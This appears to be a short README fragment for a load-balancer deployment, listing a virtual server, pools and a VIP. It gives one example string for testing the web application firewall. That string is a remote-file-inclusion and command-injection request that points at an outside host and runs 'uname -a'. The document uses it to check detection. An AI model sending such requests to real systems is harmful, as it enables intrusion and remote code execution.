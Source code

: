 == Apps deployment

This part of the code does the following:

* Creates a Virtual Server
* Creates 3 Pools
* Creates a VS VIP

=== Test WAF

here is an example string to pass which will show up in the WAF section

----
uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a
----
